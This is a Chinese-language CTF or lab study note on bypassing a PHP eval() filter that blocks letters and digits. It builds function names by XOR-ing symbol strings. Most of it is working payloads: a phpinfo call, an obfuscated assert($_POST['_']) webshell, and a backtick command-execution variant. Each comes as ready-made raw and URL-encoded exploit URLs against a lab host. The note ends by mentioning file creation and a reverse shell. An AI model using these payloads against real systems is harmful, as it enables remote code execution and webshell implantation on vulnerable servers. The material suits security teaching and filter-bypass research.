





异或运算
```php
<?php  
echo base_convert(bin2hex("5"),16,2)."\n";  
echo base_convert(bin2hex("Z"),16,2)."\n";  
echo ("5"^"Z")."\n";  
//0110101  
//1011010  
//异或得1101111  
// 二进制字符串转十进制，再转字符  
$binary = "1101111";  
$decimal = bindec($binary);  // 二进制转十进制  
$char = chr($decimal);       // 十进制转字符  
  
echo "二进制: $binary\n";  
echo "十进制: $decimal\n";  
echo "字符: $char\n";
```
输出
   

**不能输入数字字母，就使用==字符异或得到想要的字母==**
```php
function o(){
	echo "hello,world";
}
$_ = "5"^"Z";
$_(); # 这里用字符调用了o，输出hello,world
```
**题目**
```php
<?php   
highlight_file(__FILE__);   
error_reporting(0);   
if(!preg_match('/[a-z0-9]/is',$_GET['cmd'])) {       
	eval($_GET['cmd']);   
}
```

**`/[a-z0-9]/is`**
- 匹配任何字母（a-z，由于 i 修饰符也包括 A-Z）
- 匹配任何数字（0-9）
- 由于 s 修饰符，但这里没有使用 . 所以 s 实际上无作用
   `s` - 点号匹配所有字符 (dot matches all)
   `/.*/s     # 点号 . 会匹配包括换行符在内的所有字符`

```http
http://192.168.245.128:18090/class11/1.php?cmd=$_="+(+).&/"^"[@[@@@@";$_();

$_为变量由于是php作为后端，所有变量名使用$开头
$_的值为"+(+).&/"^"[@[@@@@"
后端会接收并计算得到$_=phpinfo

$_()则会编程phpinfo()完成函数调用
```
==需要对传入的特殊字符进行url编码==

**需要URL编码的常见字符**

| 字符  | URL编码       | 原因      |
| --- | ----------- | ------- |
| `&` | `%26`       | 参数分隔符   |
| `=` | `%3D`       | 键值分隔符   |
| `?` | `%3F`       | 查询字符串开始 |
| `#` | `%23`       | 片段标识符   |
|     | `%20` 或 `+` | 空格      |
| `"` | `%22`       | 引号      |
| `'` | `%27`       | 单引号     |
| `/` | `%2F`       | 路径分隔符   |
| `%` | `%25`       | 编码标识符   |
**执行任意命令assert()==适用php5==**
```php
# 理想一句换木马assert($_POST['_']});
<?php
$a='assert';
$b='_POST';
$c=$$b; # 就是$_POST
$a=$a($c['_']); # 就是assert($_POST['_']});
?>


由于不能有数字字符用特殊字符替换
<?php
$_='assert'; # "!((%)("^"@[[@[\"
$__='_POST'; # "!+/(("^"~{`{|"
$___=$$__; # 就是$_POST
$a=$_($___['_']); # 就是assert($_POST['_']});
?>

<?php
$_="!((%)("^"@[[@[\";
$__="!+/(("^"~{`{|";
$___=$$__; # 就是$_POST
$_($___['_']); # 就是assert($_POST['_']});
?>
```
**==URL如果出现\必须再加一个  \\\\代表一个非转义\\ ==**
```
http://192.168.245.128:18090/class11/1.php?cmd=$_="!((%)("^"@[[@[\\";$__="!+/(("^"~{`{|";$___=$$__;$_($___['_']);
编码
http://192.168.245.128:18090/class11/1.php?cmd=%24_%3D%22!((%25)(%22%5E%22%40%5B%5B%40%5B%5C%5C%22%3B%24__%3D%22!%2B%2F((%22%5E%22~%7B%60%7B%7C%22%3B%24___%3D%24%24__%3B%24_(%24___%5B'_'%5D)%3B
```



==反引号执行命令\`\`适用php7==
```php
理想命令`$_POST[_]`
<?php
$_='_POST';
$__=$$_;
`$__[_]`;
?>

<?php
$_="!+/(("^"~{`{|";
$__=$$_;
`$__[_]`;
?>
```

```
http://192.168.245.128:18090/class11/1.php?cmd=$_="!+/(("^"~{`{|";$__=$$_;`$__[_]`;
编码后
http://192.168.245.128:18090/class11/1.php?cmd=%24_%3D%22!%2B%2F((%22%5E%22~%7B%60%7B%7C%22%3B%24__%3D%24%24_%3B%60%24__%5B_%5D%60%3B
```

反引号是无回显的

创建成功
反弹shell
